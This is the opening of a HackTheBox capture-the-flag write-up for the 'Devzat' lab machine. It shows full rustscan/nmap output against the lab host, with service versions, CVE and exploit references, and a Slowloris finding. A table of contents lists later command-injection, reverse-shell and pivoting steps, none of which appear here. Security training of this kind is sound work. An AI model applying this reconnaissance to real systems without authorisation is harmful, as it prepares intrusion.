




# HackTheBox(HTB) - Devzat - WriteUp

> Austin Lai | November 30th, 2021

---

<!-- Description -->


Difficulty: Medium

The room is completed on November 30th, 2021

<!-- /Description -->

## Table of Contents

<!-- TOC -->

- [HackTheBoxHTB - Devzat - WriteUp](#hacktheboxhtb---devzat---writeup)
    - [Table of Contents](#table-of-contents)
    - [Let's Begin Here !!!](#lets-begin-here-)
        - [Network Reconnaissance](#network-reconnaissance)
        - [Web Enumeration and Fuzzing](#web-enumeration-and-fuzzing)
            - [Checking on port 80 - HTTP](#checking-on-port-80---http)
            - [Virtual host fuzzing](#virtual-host-fuzzing)
            - [Checking on pets.devzat.htb](#checking-on-petsdevzathtb)
        - [Enumeration of git source code](#enumeration-of-git-source-code)
        - [Command Injection vulnerability](#command-injection-vulnerability)
        - [Reverse Shell Access](#reverse-shell-access)
        - [Persistent access](#persistent-access)
        - [Enumerate System](#enumerate-system)
        - [Network pivoting](#network-pivoting)
        - [InfluxDB CVE-2019-20933 vulnerability](#influxdb-cve-2019-20933-vulnerability)
        - [Lateral move from user - patrick](#lateral-move-from-user---patrick)

<!-- /TOC -->

---

## Let's Begin Here !!!

Start the instance and perform rustscan for network reconnaissance.

### Network Reconnaissance

<details><summary>Simple Rustscan</summary>

```bash
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com
[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.118:22
Open 10.10.11.118:80
Open 10.10.11.118:8000
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
[~] Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-28 22:42 +08

Scanning 10.10.11.118 [3 ports]
Discovered open port 22/tcp on 10.10.11.118
Discovered open port 80/tcp on 10.10.11.118
Discovered open port 8000/tcp on 10.10.11.118

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack ttl 62 Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
8000/tcp open  ssh     syn-ack ttl 62 (protocol 2.0)
| fingerprint-strings:
|   NULL:
|_    SSH-2.0-Go
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.92%I=7%D=11/28%Time=61A39560%P=x86_64-pc-linux-gnu%r(N
SF:ULL,C,"SSH-2\.0-Go\r\n");
Service Info: Host: devzat.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
Nmap done: 1 IP address (1 host up) scanned in 8.67 seconds
           Raw packets sent: 3 (132B) | Rcvd: 3 (132B)
```

</details>

<details><summary>Full Rustscan</summary>

```bash
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com
[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.118:22
Open 10.10.11.118:80
Open 10.10.11.118:8000
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
[~] Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-29 16:08 +08
Scanning devzat.htb (10.10.11.118) [3 ports]

Discovered open port 80/tcp on 10.10.11.118
Discovered open port 8000/tcp on 10.10.11.118
Discovered open port 22/tcp on 10.10.11.118

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| vulners:
|   cpe:/a:openbsd:openssh:8.2p1:
|       CVE-2020-15778  6.8     https://vulners.com/cve/CVE-2020-15778
|       C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3    6.8     https://vulners.com/githubexploit/C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3  *EXPLOIT*
|       10213DBE-F683-58BB-B6D3-353173626207    6.8     https://vulners.com/githubexploit/10213DBE-F683-58BB-B6D3-353173626207  *EXPLOIT*
|       CVE-2020-12062  5.0     https://vulners.com/cve/CVE-2020-12062
|       MSF:ILITIES/GENTOO-LINUX-CVE-2021-28041/        4.6     https://vulners.com/metasploit/MSF:ILITIES/GENTOO-LINUX-CVE-2021-28041/ *EXPLOIT*
|       CVE-2021-28041  4.6     https://vulners.com/cve/CVE-2021-28041
|       CVE-2021-41617  4.4     https://vulners.com/cve/CVE-2021-41617
|       MSF:ILITIES/OPENBSD-OPENSSH-CVE-2020-14145/     4.3     https://vulners.com/metasploit/MSF:ILITIES/OPENBSD-OPENSSH-CVE-2020-14145/      *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-14145/      4.3     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-14145/       *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-14145/      4.3     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-14145/       *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP5-CVE-2020-14145/      4.3     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP5-CVE-2020-14145/       *EXPLOIT*
|       MSF:ILITIES/F5-BIG-IP-CVE-2020-14145/   4.3     https://vulners.com/metasploit/MSF:ILITIES/F5-BIG-IP-CVE-2020-14145/    *EXPLOIT*
|       CVE-2020-14145  4.3     https://vulners.com/cve/CVE-2020-14145
|_      CVE-2016-20012  4.3     https://vulners.com/cve/CVE-2016-20012
| ssh2-enum-algos:
|   kex_algorithms: (9)
|       curve25519-sha256
|       curve25519-sha256@libssh.org
|       ecdh-sha2-nistp256
|       ecdh-sha2-nistp384
|       ecdh-sha2-nistp521
|       diffie-hellman-group-exchange-sha256
|       diffie-hellman-group16-sha512
|       diffie-hellman-group18-sha512
|       diffie-hellman-group14-sha256
|   server_host_key_algorithms: (5)
|       rsa-sha2-512
|       rsa-sha2-256
|       ssh-rsa
|       ecdsa-sha2-nistp256
|       ssh-ed25519
|   encryption_algorithms: (6)
|       chacha20-poly1305@openssh.com
|       aes128-ctr
|       aes192-ctr
|       aes256-ctr
|       aes128-gcm@openssh.com
|       aes256-gcm@openssh.com
|   mac_algorithms: (10)
|       umac-64-etm@openssh.com
|       umac-128-etm@openssh.com
|       hmac-sha2-256-etm@openssh.com
|       hmac-sha2-512-etm@openssh.com
|       hmac-sha1-etm@openssh.com
|       umac-64@openssh.com
|       umac-128@openssh.com
|       hmac-sha2-256
|       hmac-sha2-512
|       hmac-sha1
|   compression_algorithms: (2)
|       none
|_      zlib@openssh.com
|_banner: SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.2
| ssh-hostkey:
|   3072 c2:5f:fb:de:32:ff:44:bf:08:f5:ca:49:d4:42:1a:06 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDNaY36GNxswLsvQjgdNt0oBgiJp/OExsv55LjY72WFW03eiJrOY5hbm5AjjyePPTm2N9HO7uK230THXoGWOXhrlzT3nU/g/DkQyDcFZioiE7M2eRIK2m4egM5SYGcKvXDtQqSK86ex4I31Nq6m9EVpVWphbLfvaWjRmIgOlURo+P76WgjzZzKws42mag2zIrn5oP+ODhOW/3ta289/EMYS6phUbBd0KJIWm9ciNfKA2D7kklnuUP1ZRBe2DbSvd2HV5spoLQKmtY37JEX7aYdETjDUHvTqgkWsVCZAa5qNswPEV7zFlAJTgtW8tZsjW86Q0H49M5dUPra4BEXfZ0/idJy+jpMkbfj6+VjlsvaxxvNUEVrbPBXe9SlbeXdrNla5nenpbwtWNhckUlsEZjlpv8VnHqXt99s1mfHJkgO+yF09gvVPVdglDSqMAla8d2rfaVD68RfoGQc10Af6xiohSOA8LIa0f4Yaw+PjLlcylF5APDnSjtQvHm8TnQyRaVM=
|   256 bc:cd:e8:ee:0a:a9:15:76:52:bc:19:a4:a3:b2:ba:ff (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCenH4vaESizD5ZgkV+1Yo3MJH9MfmUdKhvU+2Z2ShSSWjp1AfRmK/U/rYaFOoeKFIjo1P4s8fz3eXr3Pzk/X80=
|   256 62:ef:72:52:4f:19:53:8b:f2:9b:be:46:88:4b:c3:d0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKTxLGFW04ssWG0kheQptJmR5sHKtPI2G+zh4FVF0pBm
80/tcp   open  http    syn-ack ttl 62 Apache httpd 2.4.41
|_http-devframework: Couldn't determine the underlying framework or CMS. Try increasing 'httpspider.maxpagecount' value to spider more pages.
| http-headers:
|   Date: Mon, 29 Nov 2021 08:09:45 GMT
|   Server: Apache/2.4.41 (Ubuntu)
|   Last-Modified: Wed, 23 Jun 2021 15:53:22 GMT
|   ETag: "197f-5c570e80059d3"
|   Accept-Ranges: bytes
|   Content-Length: 6527
|   Vary: Accept-Encoding
|   Connection: close
|   Content-Type: text/html
|
|_  (Request type: HEAD)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| vulners:
|   cpe:/a:apache:http_server:2.4.41:
|       MSF:ILITIES/UBUNTU-CVE-2020-11984/      7.5     https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2020-11984/       *EXPLOIT*
|       MSF:ILITIES/REDHAT_LINUX-CVE-2020-11984/        7.5     https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2020-11984/ *EXPLOIT*
|       MSF:ILITIES/ORACLE_LINUX-CVE-2020-11984/        7.5     https://vulners.com/metasploit/MSF:ILITIES/ORACLE_LINUX-CVE-2020-11984/ *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-11984/      7.5     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-11984/       *EXPLOIT*
|       MSF:ILITIES/FREEBSD-CVE-2020-11984/     7.5     https://vulners.com/metasploit/MSF:ILITIES/FREEBSD-CVE-2020-11984/      *EXPLOIT*
|       MSF:ILITIES/APACHE-HTTPD-CVE-2020-11984/        7.5     https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2020-11984/ *EXPLOIT*
|       CVE-2021-39275  7.5     https://vulners.com/cve/CVE-2021-39275
|       CVE-2021-26691  7.5     https://vulners.com/cve/CVE-2021-26691
|       CVE-2020-11984  7.5     https://vulners.com/cve/CVE-2020-11984
|       1337DAY-ID-34882        7.5     https://vulners.com/zdt/1337DAY-ID-34882        *EXPLOIT*
|       FDF3DFA1-ED74-5EE2-BF5C-BA752CA34AE8    6.8     https://vulners.com/githubexploit/FDF3DFA1-ED74-5EE2-BF5C-BA752CA34AE8  *EXPLOIT*
|       CVE-2021-40438  6.8     https://vulners.com/cve/CVE-2021-40438
|       CVE-2020-35452  6.8     https://vulners.com/cve/CVE-2020-35452
|       4810E2D9-AC5F-5B08-BFB3-DDAFA2F63332    6.8     https://vulners.com/githubexploit/4810E2D9-AC5F-5B08-BFB3-DDAFA2F63332  *EXPLOIT*
|       CVE-2020-1927   5.8     https://vulners.com/cve/CVE-2020-1927
|       MSF:ILITIES/REDHAT_LINUX-CVE-2020-9490/ 5.0     https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2020-9490/  *EXPLOIT*
|       MSF:ILITIES/ORACLE_LINUX-CVE-2020-9490/ 5.0     https://vulners.com/metasploit/MSF:ILITIES/ORACLE_LINUX-CVE-2020-9490/  *EXPLOIT*
|       MSF:ILITIES/ORACLE-SOLARIS-CVE-2020-1934/       5.0     https://vulners.com/metasploit/MSF:ILITIES/ORACLE-SOLARIS-CVE-2020-1934/        *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-9490/       5.0     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-9490/        *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-9490/       5.0     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-9490/        *EXPLOIT*
|       MSF:ILITIES/FREEBSD-CVE-2020-9490/      5.0     https://vulners.com/metasploit/MSF:ILITIES/FREEBSD-CVE-2020-9490/       *EXPLOIT*
|       MSF:ILITIES/CENTOS_LINUX-CVE-2020-9490/ 5.0     https://vulners.com/metasploit/MSF:ILITIES/CENTOS_LINUX-CVE-2020-9490/  *EXPLOIT*
|       MSF:ILITIES/APACHE-HTTPD-CVE-2020-9490/ 5.0     https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2020-9490/  *EXPLOIT*
|       MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2020-9490/   5.0     https://vulners.com/metasploit/MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2020-9490/    *EXPLOIT*
|       CVE-2021-36160  5.0     https://vulners.com/cve/CVE-2021-36160
|       CVE-2021-34798  5.0     https://vulners.com/cve/CVE-2021-34798
|       CVE-2021-33193  5.0     https://vulners.com/cve/CVE-2021-33193
|       CVE-2021-30641  5.0     https://vulners.com/cve/CVE-2021-30641
|       CVE-2021-26690  5.0     https://vulners.com/cve/CVE-2021-26690
|       CVE-2020-9490   5.0     https://vulners.com/cve/CVE-2020-9490
|       CVE-2020-1934   5.0     https://vulners.com/cve/CVE-2020-1934
|       CVE-2020-13950  5.0     https://vulners.com/cve/CVE-2020-13950
|       CVE-2019-17567  5.0     https://vulners.com/cve/CVE-2019-17567
|       MSF:ILITIES/REDHAT_LINUX-CVE-2020-11993/        4.3     https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2020-11993/ *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-11993/      4.3     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-11993/       *EXPLOIT*
|       MSF:ILITIES/CENTOS_LINUX-CVE-2020-11993/        4.3     https://vulners.com/metasploit/MSF:ILITIES/CENTOS_LINUX-CVE-2020-11993/ *EXPLOIT*
|       MSF:ILITIES/APACHE-HTTPD-CVE-2020-11993/        4.3     https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2020-11993/ *EXPLOIT*
|       MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2020-11993/  4.3     https://vulners.com/metasploit/MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2020-11993/   *EXPLOIT*
|       CVE-2020-11993  4.3     https://vulners.com/cve/CVE-2020-11993
|_      1337DAY-ID-35422        4.3     https://vulners.com/zdt/1337DAY-ID-35422        *EXPLOIT*
|_http-wordpress-enum: Nothing found amongst the top 100 resources,use --script-args search-limit=<number|all> for deeper analysis)
|_http-errors: Couldn't find any error pages.
|_http-drupal-enum: Nothing found amongst the top 100 resources,use --script-args number=<number|all> for deeper analysis)
|_http-feed: Couldn't find any feeds.
| http-grep:
|   (1) http://devzat.htb:80/:
|     (1) email:
|       + patrick@devzat.htb
|   (1) http://devzat.htb:80/generic.html:
|     (1) email:
|_      + information@untitled.tld
|_http-xssed: No previously reported XSS vuln.
| http-vhosts:
|_128 names had status 302
|_http-malware-host: Host appears to be clean
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-chrono: Request times for /; avg: 302.18ms; min: 273.86ms; max: 332.64ms
| http-useragent-tester:
|   Status for browser useragent: 200
|   Allowed User Agents:
|     Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
|     libwww
|     lwp-trivial
|     libcurl-agent/1.0
|     PHP/
|     Python-urllib/2.5
|     GT::WWW
|     Snoopy
|     MFC_Tear_Sample
|     HTTP::Lite
|     PHPCrawl
|     URI::Fetch
|     Zend_Http_Client
|     http client
|     PECL::HTTP
|     Wget/1.13.4 (linux-gnu)
|_    WWW-Mechanize/1.34
| http-enum:
|   /README.txt: Interesting, a readme.
|_  /images/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable      
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-mobileversion-checker: No mobile version detected.
| http-sitemap-generator:
|   Directory structure:
|     /
|       Other: 1; html: 1
|     /assets/css/
|       css: 2
|     /assets/js/
|       js: 6
|     /images/
|       jpg: 1; svg: 1
|   Longest directory structure:
|     Depth: 2
|     Dir: /assets/css/
|   Total files found (by extension):
|_    Other: 1; css: 2; html: 1; jpg: 1; js: 6; svg: 1
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-fetch: Please enter the complete path of the directory to save data in.
|_http-referer-checker: Couldn't find any cross-domain scripts.
|_http-title: devzat - where the devs at
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
| http-php-version: Logo query returned unknown hash a00a498e549f32ed5cffae52d5b3a678
|_Credits query returned unknown hash a00a498e549f32ed5cffae52d5b3a678
|_http-date: Mon, 29 Nov 2021 08:09:42 GMT; -30m02s from local time.
| http-comments-displayer:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=devzat.htb
|
|     Path: http://devzat.htb:80/assets/js/util.js
|     Line number: 37
|     Comment:
|
|
|
|
|                */
|
|     Path: http://devzat.htb:80/generic.html
|     Line number: 17
|     Comment:
|         <!-- Wrapper -->
|
|     Path: http://devzat.htb:80/assets/css/main.css
|     Line number: 3682
|     Comment:
|         /* Footer */
|
|     Path: http://devzat.htb:80/
|     Line number: 53
|     Comment:
|
|
|                                                       </ul> -->
|
|     Path: http://devzat.htb:80/
|     Line number: 84
|     Comment:
|
|
|                                               </ul> -->
|
|     Path: http://devzat.htb:80/assets/css/main.css
|     Line number: 2795
|     Comment:
|         /* Features */
|
|     Path: http://devzat.htb:80/generic.html
|     Line number: 41
|     Comment:
|         <!-- Footer -->
|
|     Path: http://devzat.htb:80/assets/css/main.css
|     Line number: 334
|     Comment:
|         /* Row */
|
|     Path: http://devzat.htb:80/assets/css/main.css
|     Line number: 2862
|     Comment:
|         /* Statistics */
|
|     Path: http://devzat.htb:80/assets/css/main.css
|     Line number: 2217
|     Comment:
|         /* Icon */
|
|     Path: http://devzat.htb:80/assets/css/main.css
|     Line number: 1989
|     Comment:
|         /* Form */
|
|     Path: http://devzat.htb:80/assets/css/main.css
|     Line number: 2363
|     Comment:
|         /* Image */
|
|     Path: http://devzat.htb:80/
|     Line number: 147
|     Comment:
|
|
|
|                                               </ul> -->
|
|     Path: http://devzat.htb:80/
|     Line number: 31
|     Comment:
|         <!-- Nav -->
|
|     Path: http://devzat.htb:80/
|     Line number: 61
|     Comment:
|         <!-- First Section -->
|
|     Path: http://devzat.htb:80/assets/css/main.css
|     Line number: 2494
|     Comment:
|         /* Actions */
|
|     Path: http://devzat.htb:80/assets/css/main.css
|     Line number: 2633
|     Comment:
|         /* Section/Article */
|
|     Path: http://devzat.htb:80/
|     Line number: 134
|     Comment:
|         <!-- Get Started -->
|
|     Path: http://devzat.htb:80/assets/css/main.css
|     Line number: 1802
|     Comment:
|         /* Box */
|
|     Path: http://devzat.htb:80/generic.html
|     Line number: 29
|     Comment:
|         <!-- Content -->
|
|     Path: http://devzat.htb:80/assets/js/breakpoints.min.js
|     Line number: 1
|     Comment:
|         /* breakpoints.js v1.0 | @ajlkn | MIT licensed */
|
|     Path: http://devzat.htb:80/assets/js/util.js
|     Line number: 521
|     Comment:
|
|
|
|
|                */
|
|     Path: http://devzat.htb:80/assets/js/util.js
|     Line number: 299
|     Comment:
|
|
|
|                */
|
|     Path: http://devzat.htb:80/assets/css/main.css
|     Line number: 75
|     Comment:
|         /* Basic */
|
|     Path: http://devzat.htb:80/assets/css/noscript.css
|     Line number: 7
|     Comment:
|         /* Header */
|
|     Path: http://devzat.htb:80/assets/css/main.css
|     Line number: 2417
|     Comment:
|         /* List */
|
|     Path: http://devzat.htb:80/assets/js/jquery.scrollex.min.js
|     Line number: 1
|     Comment:
|         /* jquery.scrollex v0.2.1 | (c) @ajlkn | github.com/ajlkn/jquery.scrollex | MIT licensed */
|
|     Path: http://devzat.htb:80/assets/css/main.css
|     Line number: 2616
|     Comment:
|         /* Icons */
|
|     Path: http://devzat.htb:80/generic.html
|     Line number: 26
|     Comment:
|         <!-- Main -->
|
|     Path: http://devzat.htb:80/assets/js/browser.min.js
|     Line number: 1
|     Comment:
|         /* browser.js v1.0 | @ajlkn | MIT licensed */
|
|     Path: http://devzat.htb:80/
|     Line number: 27
|     Comment:
|
|                                                       built by <a href="https://twitter.com/ajlkn">@ajlkn</a> for <a href="https://html5up.net">HTML5 UP</a>.</p> -->
|
|     Path: http://devzat.htb:80/assets/css/main.css
|     Line number: 120
|     Comment:
|         /* Type */
|
|     Path: http://devzat.htb:80/assets/css/main.css
|     Line number: 2708
|     Comment:
|         /* Table */
|
|     Path: http://devzat.htb:80/generic.html
|     Line number: 73
|     Comment:
|         <!-- Scripts -->
|
|     Path: http://devzat.htb:80/assets/css/main.css
|     Line number: 3763
|     Comment:
|         /* Wrapper */
|
|     Path: http://devzat.htb:80/assets/css/main.css
|     Line number: 3334
|     Comment:
|         /* Main */
|
|     Path: http://devzat.htb:80/assets/css/main.css
|     Line number: 3211
|     Comment:
|         /* Nav */
|
|     Path: http://devzat.htb:80/generic.html
|     Line number: 2
|     Comment:
|
|
|
|
|         -->
|
|     Path: http://devzat.htb:80/assets/css/main.css
|     Line number: 2971
|     Comment:
|         /* Spotlight */
|
|     Path: http://devzat.htb:80/
|     Line number: 44
|     Comment:
|         <!-- Introduction -->
|
|     Path: http://devzat.htb:80/assets/js/jquery.scrolly.min.js
|     Line number: 1
|     Comment:
|         /* jquery.scrolly v1.0.0-dev | (c) @ajlkn | MIT licensed */
|
|     Path: http://devzat.htb:80/assets/js/util.js
|     Line number: 3
|     Comment:
|
|
|
|                */
|
|     Path: http://devzat.htb:80/
|     Line number: 90
|     Comment:
|         <!-- Second Section -->
|
|     Path: http://devzat.htb:80/generic.html
|     Line number: 20
|     Comment:
|         <!-- Header -->
|
|     Path: http://devzat.htb:80/assets/css/noscript.css
|     Line number: 1
|     Comment:
|
|
|
|
|         */
|
|     Path: http://devzat.htb:80/assets/css/main.css
|     Line number: 1827
|     Comment:
|_        /* Button */
8000/tcp open  ssh     syn-ack ttl 62 (protocol 2.0)
|_http-vuln-cve2014-3704: ERROR: Script execution failed (use -d to debug)
|_http-wordpress-enum: Nothing found amongst the top 100 resources,use --script-args search-limit=<number|all> for deeper analysis)
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-aspnet-debug: ERROR: Script execution failed (use -d to debug)
|_unusual-port: ssh unexpected on port tcp/8000
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
| http-slowloris-check:
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
| http-vhosts:
|_128 names had status ERROR
|_http-malware-host: Host appears to be clean
|_http-drupal-enum: Nothing found amongst the top 100 resources,use --script-args number=<number|all> for deeper analysis)
| ssh-hostkey:
|   3072 6a:ee:db:90:a6:10:30:9f:94:ff:bf:61:95:2a:20:63 (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDTPm8Ze7iuUlabZ99t6SWJTw3spK5GP21qE/f7FOT/P+crNvZQKLuSHughKWgZH7Tku7Nmu/WxhZwVUFDpkiDG1mSPeK6uyGpuTmncComFvD3CaldFrZCNxbQ/BbWeyNVpF9szeVTwfdgY5PNoQFQ0reSwtenV6atEA5WfrZzhSZXWuWEn+7HB9C6w1aaqikPQDQSxRArcLZY5cgjNy34ZMk7MLaWciK99/xEYuNEAbR1v0/8ItVv5pyD8QMFD+s2NwHk6eJ3hqks2F5VJeqIZL2gXvBmgvQJ8fBLb0pBN6xa1xkOAPpQkrBL0pEEqKFQsdJaIzDpCBGmEL0E/DfO6Dsyq+dmcFstxwfvNO84OmoD2UArb/PxZPaOowjE47GRHl68cDIi3ULKjKoMg2QD7zrayfc7KXP8qEO0j5Xws0nXMll6VO9Gun6k9yaXkEvrFjfLucqIErd7eLtRvDFwcfw0VdflSdmfEz/NkV8kFpXm7iopTKdcwNcqjNnS1TIs=
|_http-chrono: Request times for /; avg: 210.77ms; min: 199.85ms; max: 248.21ms
| ssh2-enum-algos:
|   kex_algorithms: (5)
|       curve25519-sha256@libssh.org
|       ecdh-sha2-nistp256
|       ecdh-sha2-nistp384
|       ecdh-sha2-nistp521
|       diffie-hellman-group14-sha1
|   server_host_key_algorithms: (1)
|       ssh-rsa
|   encryption_algorithms: (5)
|       aes128-gcm@openssh.com
|       chacha20-poly1305@openssh.com
|       aes128-ctr
|       aes192-ctr
|       aes256-ctr
|   mac_algorithms: (4)
|       hmac-sha2-256-etm@openssh.com
|       hmac-sha2-256
|       hmac-sha1
|       hmac-sha1-96
|   compression_algorithms: (1)
|_      none
|_http-fetch: Please enter the complete path of the directory to save data in.
| fingerprint-strings:
|   NULL:
|_    SSH-2.0-Go
|_banner: SSH-2.0-Go

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Post-scan script results:
| reverse-index:
|   22/tcp: 10.10.11.118
|   80/tcp: 10.10.11.118
|_  8000/tcp: 10.10.11.118
Nmap done: 1 IP address (1 host up) scanned in 125.07 seconds
           Raw packets sent: 91 (7.080KB) | Rcvd: 44 (3.276KB)
```

</details>

From the rustscan, we know that there are 3 ports open:

- port 80 - HTTP
    - HTTP enumeration [this will be in Web Fuzzing Section](#web-enumeration-and-fuzzing)
        - http://devzat.htb:80/
        - email: patrick@devzat.htb
    - HTTP server =  Apache httpd 2.4.41
- port 8000 - ssh
- port 22 - SSH

<br />

### Web Enumeration and Fuzzing

#### Checking on port 80 - HTTP

Since we know the FQDN of the box from the rustscan, we added to our host file.

We starting off browse through all the page available.

Devzat Main page:


